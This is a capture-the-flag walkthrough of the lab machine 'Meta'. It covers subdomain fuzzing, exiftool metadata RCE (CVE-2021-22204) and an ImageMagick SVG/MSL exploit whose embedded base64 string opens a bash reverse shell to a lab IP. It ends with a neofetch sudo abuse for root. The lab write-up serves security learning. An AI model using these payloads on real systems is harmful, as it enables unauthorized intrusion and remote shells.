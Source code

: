 # Meta

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.204.20
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 14:51 EDT
Nmap scan report for 10.129.204.20
Host is up (0.0076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `artcorp.htb` to our `/etc/hosts` file to view port 80.

### ArtCorp --> Subdomain Fuzzing

The webpage was a start-up website:

<figure><img src="../../../.gitbook/assets/image (8) (8).png" alt=""><figcaption></figcaption></figure>

They had a team with some names I might need to use, along with a hint that this was a PHP based website.

<figure><img src="../../../.gitbook/assets/image (5) (12).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website, so we can try `gobuster` scanning for directories and `wfuzz` scanning for sub-domains. A `gobuster` scan reveals nothing, but the `wfuzz` scan did reveal one sub-domain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.artcorp.htb' --hw=0 -u http://artcorp.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000004177:   200        9 L      24 W       247 Ch      "dev01"
```

Here's the webpage:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Metadata RCE

The application allows us to upload images to the machine.

<figure><img src="../../../.gitbook/assets/image (6) (11).png" alt=""><figcaption></figcaption></figure>

Wneh an image is uploaded, the metadata of the image is printed on screen below:

<figure><img src="../../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>

This was the output of `exiftool`, which has some RCE attacks possible through metadata.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

By following the PoC, I was able to confirm that we had RCE on the machine:

```bash
exiftool -config eval.config runme.jpg -eval='system("ls -la")' 
# upload runme.jpg
```

<figure><img src="../../../.gitbook/assets/image (10) (8).png" alt=""><figcaption></figcaption></figure>

For some reason, the above PoC doesn't let me execute reverse shells. So I changed the script used to this:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

After changing the `exploit.py` file to have the correct port and IP address, I got a reverse shell.

<figure><img src="../../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot grab the user flag yet.&#x20;

### Morgify

There wasn't much on the machine that `www-data` could access. So I downloaded `pspy64` onto the machone to view processes executed by `root` and the user `thomas`.

There was a script run by the user:

```
2023/05/07 09:37:01 CMD: UID=1000 PID=1335   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=1000 PID=1336   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=1000 PID=1338   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=0    PID=1337   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=0    PID=1339   | /bin/sh -c rm /tmp/* 
2023/05/07 09:37:01 CMD: UID=1000 PID=1340   | pkill mogrify
```

Here's the script:

{% code overflow="wrap" %}
```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
{% endcode %}

`mogrify` was used, and it is an image editor that is part of ImageMagick. We can first find the version of ImageMagick used here:

```
www-data@meta:/tmp$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Interesting. There are some RCE exploits pertaining to this:

{% embed url="https://www.cybersecurity-help.cz/vdb/SB2020121303" %}

{% embed url="https://github.com/coco0x0a/CVE-2020-29599" %}

How the exploit works is thorugh embedding XML code within an SVG file. Here's the SVG file I used:

```markup
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

This uses a base64 encoded `bash` one-liner reverse shell. After waiting for a little bit, we should get a shell as `thomas`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (10).png" alt=""><figcaption></figcaption></figure>

### Neofetch

When we check `sudo` privileges, we see the following:

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

GTFOBins does have a command for this binary, but it doesn't work:

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

Then, I noticed the `XDG_CONFIG_HOME` environment variable. The exploit above relies on changing the configuration files for `neofetch`. In this case, since we cannot specify any flags, we can just create a malicious configuration file that would give us a root shell.

<figure><img src="../../../.gitbook/assets/image (14) (10).png" alt=""><figcaption></figcaption></figure>
